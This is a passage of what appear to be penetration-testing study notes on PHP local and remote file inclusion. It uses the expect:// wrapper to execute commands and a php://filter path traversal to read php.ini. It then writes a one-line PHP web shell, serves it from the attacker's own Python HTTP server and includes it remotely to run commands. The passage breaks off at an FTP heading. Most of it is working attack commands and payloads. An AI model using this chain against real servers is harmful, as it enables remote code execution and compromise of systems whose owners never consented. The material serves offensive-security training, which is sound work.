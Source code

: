 ```

Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)




#### Expect Wrapper

Designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server

```$ echo '<base64 encoded php.ini>' | base64 -d | grep expect```

To use the expect module, we can use the expect:// wrapper and then pass the command we want to execute, as follows:

```$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"```






## RFI





### Verify RFI


 any remote URL inclusion in PHP would require the allow_url_include setting to be enabled
```
    $ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"


    $ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

The first step in gaining remote code execution is creating a malicious script in the language of the web application,



```$ echo '<?php system($_GET["cmd"]); ?>' > shell.php```

Host this script and include it through the RFI vulnerability.



#### HTTP Server
```$ sudo python3 -m http.server <LISTENING_PORT>```

```http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id```



#### FTP Server

```